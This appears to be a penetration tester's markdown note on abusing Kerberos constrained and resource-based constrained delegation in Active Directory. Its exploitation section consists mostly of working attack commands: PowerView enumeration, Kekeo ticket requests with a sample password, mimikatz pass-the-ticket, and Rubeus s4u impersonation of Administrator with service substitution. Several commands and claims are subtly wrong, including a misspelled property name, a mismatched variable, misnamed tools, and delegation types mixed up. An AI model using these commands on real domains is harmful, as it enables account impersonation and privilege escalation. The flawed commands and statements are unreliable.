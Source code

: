 #kekeo #mimikatz #powershell 
- [Unconstrained Delegation](Unconstrained%20Delegation.md) is dangerous, as it allows services to impersonate user and access any service.
- S4U restricts this and only allows delegation to certain services.
	- Service for User to Proxy (S4U2Proxy)
	- Service for User to Self (S4U2Self)
- No TGT is required in this extention.
### S4U2Self
- Kerberos delegation when the client does not support Kerberos protocol. (Protocol Transition)
- In this scenario, the service which has the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` flag set, can request a TGS for the another service for the user. 
### S4U2Proxy
This extension allows a service to request another service on behalf of the user by using `ST` instead of `TGT`.
The service can only ask for impersonation `ST` for certain services defined in one of the following ways:
- **Classic Constrained Delegation**: `msDS-AllowedToDelegateTo` attribute of the service account. It contains [SPN](TechLexicon/Penetration%20Testing/Exploitation/Active%20Directory/AD%20Concepts/Services.md) of the services for which the service account can ask ST for. To edit this parameter, `SeEnableDelegationPrivilege` priv is required.
- **Resource Based Constrained Delegation**: The service account is mentioned in the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the target service for which the service account will ask ST for.
---
Constrained Delegation works in one of the two ways:
- S4U2Proxy (`TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION`) + S4U2Self (Classic Constrained Delegation) (`msDS-AllowedToDelegateTo`)
	- The compromised user/machine account should have the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` in the UAC, and the service for delegation should be mentioned in the `msDS-AllowedToDelegateTo` attribute of the compromised user/machine.
- S4U2Self (Resource Based Constrained Delegation) (`msDS-AllowedToActOnBehalfOfOtherIdentity`)
	- This moves the delegation authority to the the service/resource owner, instead of the administrator. Or in fact any user, having `Full` or `GenericWrite` over the target service.
	- The service account that can request ST should be mentioned in the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the delegated service's service account.
# Exploitation
## Classic Constrained Delegation
Classing Constrained Delegation involves compromising a account with `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` and some SPNs in `msDS-AllowedToDelegateTo` attribute. We can simply tell the compromised user/computer account to ask for ST for the service mentioned in the `msDS-AllowedToDelegateTo`.
### Enumeration
- Enumerating users and computers which constrained delegation enabled using
- Powerview:
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```
- Active Directory Module
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDeleagateTo
```
- Kekeo
```powershell
kekeo tgt::ask /user:svcIIS /domain:mydomain.local /password:Qwer1234.
# this will save the TGT file to the disk
# use this TGT to request TGS for the delegated service
kekeo tgs::s4u /tgt:<tgt_file> /user:<user_to_inpersonate> /service:<service_allowed_to_delegate_to>
# this will save the TGS to the disk
# we can load this ticket it memory
mimikatz kerberos::ptt <ticket_file>
```
- Rubeus
```powershell
# This will use the TGT of websvc to ask for ST of impersonator user to access the msdss delegated service, and inject the ticket in memory
.\rubues.exe s4u /user:<username> /aes256:<aesKey> /impersonateuser:Aministrator /msdsspn:CIFS/sqlserver.domain.local /ptt
```
> unconstrained delegation performs no validation for the service mentioned in the `msDS-AllowedToDelegateTo`, hence, we can request the ST for the intended service and modify the ticket for another service. We can the add the `/altservice:<protocol>` to rubeus to modify the service ticket. Hence, the below command will request ST for the `msdsspn` account and modify the service.
```powershell
.\rubues.exe s4u /user:<username> /aes256:<aesKey> /impersonateuser:Aministrator /msdsspn:CIFS/sqlserver.domain.local /ptt /altservice:ldap
```
## RBCD
RBCD exploitation Involves having write access to an object that we want to exploit.
- Set up RBCD attribute on the target service.
- Using AD Module
```powershell
# We should already have local admin access on the computer1 account.
$compputers = "mycomputer$";
Set-ADComputer -Identity targetcomputer -PrincipalsAllowedToDelegateTo $computers;
```
- Powerview
```powershell
# Set RBCD delegation
Set-DomainRBCD -Identity targetcomputer -DelegateFrom 'mycomputer$';
# We can verify the same using
Get-DomainRBCD
```
- We can now use the same s4u module from rubeus to impersonate a user
```powershell
.\rubues.exe s4u /user:<username> /aes256:<aesKey> /impersonateuser:Aministrator /msdsspn:CIFS/sqlserver.domain.local /ptt
```
